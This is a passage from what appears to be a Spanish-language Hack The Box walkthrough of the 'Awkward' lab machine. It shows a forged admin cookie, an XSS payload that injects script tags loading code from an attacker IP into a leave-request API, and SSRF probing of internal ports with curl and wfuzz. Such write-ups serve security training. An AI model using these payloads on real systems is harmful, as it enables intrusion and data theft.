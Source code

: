 Si lo cambiamos a "admin"
En la seccion "leave" nos dice que lo que pongamos lo vera la tal Christine
Intentamos un XSS:
```
POST /api/submit-leave HTTP/1.1
Host: hat-valley.htb
Referer: http://hat-valley.htb/leave
Cookie: token=admin
{"reason":"<script src='http://10.10.14.7/script.js'>",
"start":"<script src='http://10.10.14.7/script.js'>",
"end":"<script src='http://10.10.14.7/script.js'>"}
```
Pero no recibimos ninguna respuesta con ```sudo python3 -m http.server 80;``` sino que da error.

Aun asi tenemos la ruta "api". Si hacemos una peticion POST
```console
└─$ curl -s -X POST http://hat-valley.htb/api/submit-leave # Invalid user
└─$ curl -s -X POST http://hat-valley.htb/api/submit-leave -H "Content-Type: application/json"  -d '{"user":"Crhistine"}'
Invalid user
```
![](/assets/images/htb-awkward/awkward4.png)

Si en network filtramos por api y toqueteamos dentro de hr
```
/api/all-leave
/api/submit-leave
/api/staff-details
/api/store-status -> http://hat-valley.htb/api/store-status?url="http://store.hat-valley.htb"
```
-------------------------------------------------------------
## Part 3: SSRF

Explotamos mas la ruta **/api/store-status**
```console
└─$ curl -s 'http://hat-valley.htb/api/store-status?url="http://10.10.14.7"' 
# Peticion get con -> sudo python3 -m http.server 80;
└─$ curl -s 'http://hat-valley.htb/api/store-status?url="http://store.hat.valley.htb"' # se queda pillado
└─$ curl -s 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:80"' -i | grep "Content-Length:"
Content-Length: 132                                                                                               └─$ curl -s 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:81"' -i | grep "Content-Length:"
Content-Length: 0
```
Probamos con un internal port discovery:
```console
└─$ wfuzz -t 200 --hh=0 -z range,0000-9999 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:FUZZ"'
```